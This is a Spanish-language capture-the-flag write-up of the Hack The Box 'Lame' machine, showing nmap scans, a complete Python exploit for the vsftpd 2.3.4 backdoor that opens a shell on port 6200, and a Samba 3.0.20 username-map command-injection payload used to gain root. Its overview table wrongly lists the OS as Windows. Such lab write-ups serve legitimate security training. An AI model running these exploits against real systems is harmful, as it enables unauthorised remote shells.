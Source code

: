 # Lame

![](./images/lame.png)

**Índice**   
1. [Overview](#id1)
2. [Enumeración](#id2)
3. [Explotación](#id3)

#
## 1. Overview<a name="id1"></a>

|OS|Difficulty|Machine State|Vector|Priviledge Escalation|
|-|-|-|-|-|
|Windows|Easy|Retired|Samba|Samba|


#
## 2. Enumeración<a name="id1"></a>

### 2.1 Nmap

Se realiza un escano con nmap jugando con el min-rate para no emitir paquetes más lentos que 5000 paquetes por segundo. El resultado se exporta al fichero grepeable allPorts.

```bash
❯ nmap -sS --min-rate 5000 -p- -n -Pn 10.10.10.3 -vv -oG allPorts
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-21 14:28 CET
Initiating SYN Stealth Scan at 14:28
Scanning 10.10.10.3 [65535 ports]
SYN Stealth Scan Timing: About 50.00% done; ETC: 14:30 (0:00:52 remaining)
Discovered open port 21/tcp on 10.10.10.3
Discovered open port 445/tcp on 10.10.10.3
Discovered open port 139/tcp on 10.10.10.3
Discovered open port 22/tcp on 10.10.10.3
Discovered open port 3632/tcp on 10.10.10.3
Completed SYN Stealth Scan at 14:30, 108.30s elapsed (65535 total ports)
Nmap scan report for 10.10.10.3
Host is up, received user-set (0.12s latency).
Scanned at 2021-11-21 14:28:57 CET for 109s
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE      REASON
21/tcp   open  ftp          syn-ack ttl 63
22/tcp   open  ssh          syn-ack ttl 63
139/tcp  open  netbios-ssn  syn-ack ttl 63
445/tcp  open  microsoft-ds syn-ack ttl 63
3632/tcp open  distccd      syn-ack ttl 63
```

Ejecutamos un segundo escaneo, lanzando los scripts básicos de enumeración de nmap y tratando de descubrir la versión y typo de los servicios.

```bash
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.20
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2021-11-21T13:38:21-05:00
|_clock-skew: mean: 2h30m20s, deviation: 3h32m08s, median: 19s
```

Con searchsploit se verifican los puertos y servicios detectados en busca de versiones vulnerables.

#
## 3. Explotación<a name="id1"></a>

### 3.1 Vsftpd 2.3.4 (Posible backdoor)

![](./images/vsftpd.png)

Se prueba la vulnerabilidad de varias formas y con distintas herramientas antes de descartar este vector de entrada.

#### 3.1.1 Metasploit

![](./images/metasploit.png)

#### 3.1.2 Python

```python
#!/usr/bin/python3

from telnetlib import Telnet
import argparse
from signal import signal, SIGINT
from sys import exit

def handler(signal_received, frame):
    # Handle any cleanup here
    print('   [+]Exiting...')
    exit(0)

signal(SIGINT, handler)
parser=argparse.ArgumentParser()
parser.add_argument("host", help="input the address of the vulnerable host", type=str)
args = parser.parse_args()
host = args.host
portFTP = 21 #if necessary edit this line

user="USER nergal:)"
password="PASS pass"

tn=Telnet(host, portFTP)
tn.read_until(b"(vsFTPd 2.3.4)") #if necessary, edit this line
tn.write(user.encode('ascii') + b"\n")
tn.read_until(b"password.") #if necessary, edit this line
tn.write(password.encode('ascii') + b"\n")

tn2=Telnet(host, 6200)
print('Success, shell opened')
print('Send `exit` to quit shell')
tn2.interact()
```

No hay ninguna conexión en el puerto 6200.
```bash
❯ python3 49757.py 10.10.10.3
^C   [+]Exiting...
```

#### 3.1.3 Manual

Tal y como se aprecia en el script anterior. Despues de realizar una conexion ftp autenticandose con user="user:)" password="pass" se abre el puerto 6200, el cual permite realizar una conexión telnet.

![](./images/telnet6200.png)

Despues de autenticase en el servicio FTP, el puerto 6200 permanece cerrado, por lo que esta vulnerabilidad está parcheada o con workaround.

### 3.2 Samba 3.0.20 - Username Map Script

![](./images/samba.png)

### 3.2.1 Mestasploit

Con el módulo de metasploit es fácil. Se adquieren privilegios de root sobre la máquina víctima.

![](./images/exploit.png)

### 3.2.2 Manual 

Se analiza el script de mestasploit para reproducir la vulnerabilidad de forma manual. La vulnerabilidad permite ejecutar comandos de forma remota especificando el siguiente string como user durante el ```logon```

```bash
/='nohub [cmd]'
```

![](./images/manualsamba.png)

En la siguiente figura, se obtiene una shell como root.

![](./images/manual.png)

